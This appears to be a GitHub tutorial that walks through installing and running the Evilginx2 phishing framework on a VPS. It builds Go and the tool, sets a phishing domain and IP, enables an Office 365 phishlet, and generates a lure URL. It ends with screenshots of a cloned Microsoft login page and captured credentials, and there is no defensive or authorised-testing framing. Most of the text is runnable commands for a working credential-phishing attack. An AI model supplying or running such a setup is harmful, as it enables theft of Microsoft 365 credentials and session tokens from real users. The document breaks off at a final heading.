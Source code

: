 # ⚙️ Step 1: Prepare the VPS Environment

Before installing Evilginx, we need to ensure the VPS has all necessary tools and dependencies installed. This includes utilities like `wget` and the Go programming language.
```bash
sudo apt update 
sudo apt install wget -y
```
---

## 🔧 Installing Required Tools

First, update your VPS package list and install essential tools for the setup:

- `wget` for downloading files  
- `git` and `make` for building Evilginx from source
```bash
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz
```
---

## 🏗️ Installing Go (Golang)

To build Evilginx, Go must be installed on the system. The installation involves:

- Downloading the Go binary archive from the official website  
- Extracting it to `/usr/local/`  
- Configuring the system `PATH` to include Go binaries

This setup allows you to compile Evilginx without errors.
```bash
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/
```
```bash
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh
```
---

# 🕸️ Step 2: Clone and Build Evilginx

With the environment ready, clone the Evilginx source code from its GitHub repository and compile it.

---

## 📥 Cloning the Repository

Use `git` to clone the Evilginx2 repository to your VPS:

- Repository URL: `https://github.com/BakkerJan/evilginx2.git`
```bash
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make
```
---

## ⚙️ Building the Project

Navigate into the cloned directory and use `make` to compile the source code into a working binary.

---

# 🚀 Step 3: Install and Launch Evilginx

Once built, launch the Evilginx service to begin configuration.
```bash 
sudo evilginx
```
---

# 🌐 Step 4: Configure Domain and IP

Set your phishing domain and the VPS IP address within Evilginx. For example:

- Domain: `evilginxtest.shop`  
- IP: `52.144.47.242`

Apply a blacklist rule to block unauthorized requests for better security.
```bash
config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth
```
---

# 🏷️ Step 5: Enable the Office 365 Phishlet

Configure the Office 365 phishlet to use your custom domain and enable it.
```bash
phishlets hostname o365 <yourdomain> 
phishlets enable o365
```
---

## ⚠️ SSL/TLS Setup Notes

If you encounter SSL/TLS errors when enabling the phishlet:

- This usually means DNS propagation is incomplete  
- Evilginx attempts to obtain an SSL certificate via Let’s Encrypt automatically  
- Retry the enable command periodically until it succeeds

---

# 🎣 Step 6: Create and Configure the Phishing Lure

Create a lure linked to the Office 365 phishlet and set a redirect URL users will be sent to after submitting credentials.
```bash
lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0
```
---

# 👀 Step 7: Phishing Experience and Session Capture

When a user visits the lure URL, they see a page identical to Microsoft’s login screen.

![Microsoft Login Page](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After submitting credentials, Evilginx captures them transparently.

![Credentials Captured](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

---

# 🗝
